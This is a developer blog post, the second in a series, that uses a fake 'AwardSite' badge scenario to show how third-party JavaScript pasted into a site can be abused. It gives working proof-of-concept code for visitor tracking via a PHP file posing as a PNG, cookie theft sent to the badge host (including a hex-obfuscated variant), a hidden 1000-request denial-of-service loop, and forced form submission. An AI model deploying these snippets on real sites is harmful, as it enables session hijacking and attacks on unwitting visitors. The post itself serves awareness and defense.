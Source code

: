 ```yaml
---
layout: post
title: 'The very bad things that Javascript can do: Part 2'
tags:
- html
- javascript
- security
---
```


In part 1, I discussed the various arguments I run into about wanting to be overly security conscious with our sites in regard to third party javascript. In this entry, we’ll run through a few scenarios.

In our scenarios here, we’re going to focus on a fake award site called “AwardSite” that gave our victim a winning notification. They are in the top 5% of 2013’s best websites. The servers have PHP and are apache servers.

Perhaps they send an email like this:


    Hello and congratulations!  Your site, http://victimsite.com, has won the prestigious Best of 2013 award from AwardSite.com!  
     
    Did you know you made it into the top 5%?  We're impressed, and you should be proud!
     
    Below, you'll find a snippet of code to insert into the footer of your website.  It shows off your great accomplishment.
     
    Did you know AwardSite.com has a very high Search Engine Optimization ranking?  We're already linking to your website -
    but that doesn't complete the circle.  If you use the banner in the code below, you not only show off your reputation this year but that reciprocal link helps Google AND Bing rank your site even higher.
     
    Congratulations again!
     
    Fake Guy
    AwardSite.com


And of course, at the very end of the email is some HTML or Javascript that they are prompted to put into their site.

Now, for our example, we’re going to use the following banner:

http://aaronsaray.com/wp-content/uploads/2013/03/award.png


Now, lets run through some scenarios.



#### Hit Counter / Target Determination

In this case, the nefarious hacker wants to determine if this site has a lot of traffic. And, of that traffic, they want to determine what the demographics of the browsers are. This is a very easy information gathering attempt. This is what the code looks like:

{% highlight HTML %}
<a href="http://awardsite.com"><img src="http://awardsite.com/award.png?compress=134"></a>
{% endhighlight %}

Let’s break down what the code means, and then show the back-end. First, it is just a link to the awardsite website. The image is the banner that you saw above. Finally, that image has a pretty non-conspicuous get parameter called ‘compress’ which is set to the ID in the database of this particular victim site. It was important to use a word that SEEMED somewhat legitimate. Of course compress seems ok, so why would I judge that?

On the server, however, the file award.png is actually a PHP file. The apache server has configuration, perhaps in the .htaccess file, like this:

    <Files award.png>
        ForceType application/x-httpd-php
    </Files>

Then, the award.png file has the following PHP. (Please note, I’ve not went to the trouble to make sure this handles EVERY scenario… this is meant as a proof of concept).

Note: updateSite() is a function that writes an entry to the database using that siteID. I didn’t think it was important enough to show that code too.

{% highlight PHP %}
<?php
$siteID = isset ($_GET['compress']) ? $_GET['compress'] : null;
 
if ($siteID) {
    $header = isset($_SERVER['HTTP_USER_AGENT']) ? $_SERVER['HTTP_USER_AGENT'] : '';
    updateSite($siteID, $header);
}
 
header('Content-type: image/png');
readfile('sourceawardfile.png');
{% endhighlight %}

This code basically gets the siteID from the GET query. It then grabs the user agent and inserts that into the database with the siteID. This works as a hit-counter and a demographics tracking. The backend will have to have some sort of analytic processing software to determine which browsers are visiting, etc.

No matter if there’s a valid siteID or not, finally the png header gets sent and the real award file is sent to the browser.

In this case, our victim has allowed the “bad guy” to keep track of their visitors, times, and demographics. They can now determine if this is a high traffic site or not – and whether its worth targeting specifically with more sophisticated attacks.

#### Cookie Stealing / Session Theft

PHP stores the session key as a cookie on the visitors browser named PHPSESSID by default. If the hacker had this cookie, and the session hadn’t expired, they could act as the victim. The goal here is to have a logged in user of victim website visit the bad Javascript. Then, the cookie is sent to the hacker who then uses that to steal the session of the victim.

Here is the source code for the HTML/Javascript from the email:

{% highlight HTML %}
<a href="http://awardsite.com" id="awardlink">
    <script>
        var i = new Image();
        i.src = 'http://awardsite.com/award.png?c=' + document.cookie;
        document.getElementById('awardlink').appendChild(i);
    </script>
</a>
{% endhighlight %}

Here, a new image is created. Then, it is sent to the award.png PHP file. In this case, we grab the entire document.cookie. The cookie can then be parsed from the string of the GET parameter. Finally, the image is added to the file and no one is the wiser.

Of course, this kind of can look a bit bad if you see the words ‘document.cookie’ – so we can obscure this a bit. Try this:

{% highlight javascript %}
var s = 'http://awardsite.com/award.png';
var i = new Image();
var _0xba4e=["\x63\x6F\x6F\x6B\x69\x65"];
var j=document[_0xba4e[0]];
i.src = concat(s,'?c=', j);
document.getElementById('awardlink').appendChild(i);
{% endhighlight %}        
        
Of course, it can look bad for our trained eyes… but for those who don’t “work on computers” they’ll just think its code they don’t understand and use it.

**For future examples, I won’t show how to obfuscate the code. But that would be one of the steps.**

#### Denial of Service for Victim Site

What if we could make the visitor perform a denial of service? That wouldn’t be that hard.

{% highlight HTML %}
<a href="http://awardsite.com" id="awardlink">
    <script>
        var s = 'http://awardsite.com/award.png';
        var i = new Image();
        document.getElementById('awardlink').appendChild(i);
        setTimeout(function() {
            for (var x = 0; x < 1000; x++) {
                var j = new Image();
                j.style = 'display: none';
                j.src = 'http://victimsite.com/someasset.php';
                document.body.appendChild(j);
            }
        }, 3000);
    </script>
</a>
{% endhighlight %}

In this case, the image is added successfully. However, the setTimeout() method executes a different function 3 seconds later. The delay is so that the user won’t notice the delay in their browser (hopefully the entire site has loaded by then) – and it puts it in the background. Then, a new ‘image’ is created 1000 times and appended to the document – with a hidden display (so the visitor can’t tell). But, basically, one visitor to this site, especially if they spent some time just reading the content, loaded 1000 more requests than were necessary.

#### Processing Actions as the Victim

We all know that we need to not have forms that submit with the method of GET if the action is something that adds/edits/updates information. This restricts me from creating a sample that uses the Image() object to load a fake form submission with GET parameters. However, it doesn’t stop us from submitting a form that MAY be on the current page.

{% highlight HTML %}
<a href="http://awardsite.com" id="awardlink">
    <script>
        var s = 'award.png';
        var i = new Image();
        i.src = s;
        document.getElementById('awardlink').appendChild(i);
        var f = document.getElementById('formID');
        f[0].value = 'Some Nefarious Input';
        f.submit();
    </script>
</a>
{% endhighlight %}

This code goes and gets the form with an ID of ‘formID’ and populates the first element with some bad information. Then it clicks submit.

This is bad, but there are some potential problems. What if… the form doesn’t have an ID? Remember, we could also do some research, determine this is the second form on the page, and substitute the following:

{% highlight javascript %}
var f = document.forms[1];
{% endhighlight %}


OK, but lets just say its distracting to the visitor when the form is submitting. It takes them away from what they’re doing – of course they’re going to report it. Well, we can force the form to be ajax, and then submit.

{% highlight javascript %}
f.onsubmit = function() {
    //code to create xmlhttprequest and send form as ajax
};
f.submit();
{% endhighlight %}

#### So what does all this mean?

Now that you’ve seen the examples of what can happen, I hope it turns on a light that we need to be more vigilant about what we allow clients to put into your hosted applications.


        
